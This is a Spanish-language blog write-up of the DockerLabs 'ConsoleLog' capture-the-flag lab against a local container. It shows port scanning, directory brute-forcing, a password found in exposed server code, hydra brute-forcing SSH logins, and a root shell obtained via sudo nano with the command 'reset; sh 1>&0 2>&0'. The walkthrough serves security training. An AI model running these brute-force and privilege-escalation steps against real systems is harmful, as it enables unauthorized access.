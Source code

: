 ```yaml
---
layout: post
title: DockerLabs - ConsoleLog
summary: "Write-up del laboratorio ConsoleLog de DockerLabs"
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, node.js, ssh, privesc, sudo]
media_subpath: "/assets/img/posts/dockerlabs_consolelog"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 15:03 GMT
Initiating ARP Ping Scan at 15:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:03, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 5000/tcp on 172.17.0.2
Discovered open port 3000/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:03, 9.88s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.17 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ nmap -sCV -p80,3000,5000 172.17.0.2                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 15:03 GMT
Nmap scan report for 172.17.0.2
Host is up (0.000063s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Mi Sitio
|_http-server-header: Apache/2.4.61 (Debian)
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds
```

## análisis

Al acceder al puerto 80 de la maquina, nos encontramos con la siguiente pagina web:

![Desktop View](/20251026160612.webp){: width="972" height="589" .shadow}

Si miramos en el código de la pagina, encontramos que el botón, al ser accionado, lanza el método `authenticate()` del fichero `authenticate.js`:

![Desktop View](/20251026160641.webp){: width="972" height="589" .shadow}

Dicho método nos da algunas pistas de por donde podemos seguir:

![Desktop View](/20251026160731.webp){: width="972" height="589" .shadow}

Si tratamos de acceder al recurso llamado `/recurso/`, vemos que nos da un error:

![Desktop View](/20251026160809.webp){: width="972" height="589" .shadow}

Por ello, probamos algo diferente, que en este caso es tratar de obtener por fuerza bruta otros recursos disponibles:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 234]
/backend              (Status: 301) [Size: 310] [--> http://172.17.0.2/backend/]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
```

Nos encontramos con el recurso `backend`, en el que nos listan el contenido de la carpeta del servicio desplegado en el puerto 3000 de la maquina:

![Desktop View](/20251026162205.webp){: width="972" height="589" .shadow}

Revisando el fichero `server.js`, encontramos una contraseña:

![Desktop View](/20251027005414.webp){: width="972" height="589" .shadow}

## explotación

Probamos a ver si la contraseña pertenece a algún usuario por SSH empleando `hydra` para aplicar fuerza bruta:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Consolelog]
└─$ hydra -L /usr/share/seclists/Passwords/rockyou.txt -p lapa******************************** ssh://172.17.0.2:5000 -t 64 -I 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-26 15:43:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:14344399/p:1), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[5000][ssh] host: 172.17.0.2   login: l****   password: lapa********************************
```

Concluimos que la contraseña pertenece a cierto usuario por SSH, y nos conectamos con dichas credenciales:

![Desktop View](/20251027005115.webp){: width="972" height="589" .shadow}

## escalada de privilegios

Revisando los permisos SUDO del usuario obtenido, encontramos que puede ejecutar el binario `/usr/bin/nano` como el usuario `root`:

```bash
l*****@dfebfa8554fa:~$ sudo -l
Matching Defaults entries for l***** on dfebfa8554fa:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User l**** may run the following commands on dfebfa8554fa:
    (ALL) NOPASSWD: /usr/bin/nano
```

Comprobamos en [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) que podemos obtener una consola como el usuario `root` realizando las siguientes acciones:

![Desktop View](/20251026164557.webp){: width="972" height="589" .shadow}

La secuencia es: [Ctrl+R] + [Ctrl+X] + la cadena `reset; sh 1>&0 2>&0`

![Desktop View](/20251026164922.webp){: width="972" height="589" .shadow}

Una vez introducido, vemos que obtenemos la consola:

![Desktop View](/20251027010031.webp){: width="972" height="589" .shadow}

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>
